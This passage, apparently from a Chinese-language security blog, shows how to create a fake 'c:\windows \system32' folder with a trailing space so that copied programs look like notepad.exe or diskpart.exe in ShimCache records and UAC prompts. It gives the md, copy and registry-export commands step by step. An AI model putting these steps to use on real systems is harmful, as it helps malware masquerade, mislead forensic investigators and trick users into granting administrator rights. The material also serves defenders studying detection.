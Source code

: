 这里我尝试利用模拟可信目录欺骗ShimCache，迷惑性很高

方法如下：

#### 1. 创建可信目录`"c:\windows \system32"`

```
md "\\?\c:\windows "
md "\\?\c:\windows \system32"
```

#### 2. 释放文件`"c:\windows \system32\calc.exe"`

```
copy c:\test\putty.exe "\\?\c:\windows \system32\notepad.exe"
```

#### 3. 执行

```
"c:\windows \system32\notepad.exe"
```

#### 4. 重启后查看ShimCache

使用工具： https://github.com/mandiant/ShimCacheParser

```
reg export "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\AppCompatCache" ShimCache.reg
ShimCacheParser.py -o out.csv -r c:\test\ShimCache.reg -t
```

查看结果，很具有迷惑性，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-2-15/3-1.png)


## 0x04 利用模拟可信目录伪造正常的UAC弹框
---

### 1、编写需要管理员权限运行的程序

使用Visual Studio 

VS工程设置位置：

`配置属性` -> `链接器` -> `清单文件`，选择需要管理员权限运行

也可以修改PE文件资源中的manifest

### 2、模拟可信目录，释放文件

```
copy c:\test\testuac.exe "\\?\c:\windows \system32\diskpart.exe"
```

执行：`"c:\windows \system32\diskpart.exe"`

弹出UAC提示，显示路径为正常的diskpart.exe，但是没有签名会提示异常，如下图
